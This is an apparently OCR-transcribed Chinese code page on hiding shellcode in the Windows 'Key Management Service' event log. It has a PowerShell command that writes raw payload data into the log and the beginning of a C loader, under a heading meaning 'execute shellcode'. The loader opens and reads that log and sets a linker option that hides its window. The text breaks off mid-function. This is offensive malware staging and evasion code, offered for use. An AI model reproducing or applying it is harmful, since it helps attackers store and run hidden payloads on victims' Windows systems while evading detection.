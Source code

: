 使用密钥管理服务日志和KmsRequests作为源进行事件日志写入

```
Write-EventLog -LogName 'Key Management Service' -Source KmsRequests -EventID 9999 -EntryType Information -Category 0 -Message "Hello World!" -RawData $data
```

执行shellcode

```
#include &lt;windows.h&gt;

#include &lt;stdio.h&gt;

#include &lt;string.h&gt;

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#define BUFFER_SIZE 1024

int main()

{

HANDLE hEventLog;

LPCTSTR lpUNCServerName = NULL;

LPCTSTR lpSourceName = TEXT("Key Management Service");

DWORD dwReadFlags = EVENTLOG_BACKWARDS_READ | EVENTLOG_SEQUENTIAL_READ;

DWORD dwRecordOffset = 0; //

DWORD dwBytesRead = 0;

DWORD dwMinimumBytesToRead = 0;

DWORD dwTimeGenerated = 0;

BYTE bBuffer[BUFFER_SIZE];

EVENTLOGRECORD* pevlr = (EVENTLOGRECORD*)&amp;bBuffer;

// Open EventLog, Get Handler

hEventLog = OpenEventLog(lpUNCServerName, lpSourceName);

if (hEventLog == NULL)

{

printf("OpenEventLog failed (%d)\n", GetLastError());

return 0;

}

// Read EventLog

if (!ReadEventLog(hEventLog, dwReadFlags, dwRecordOffset, pevlr, BUFFER_SIZE, &amp;dwBytesRead, &amp;dwMinimumBytesToRead))

{

```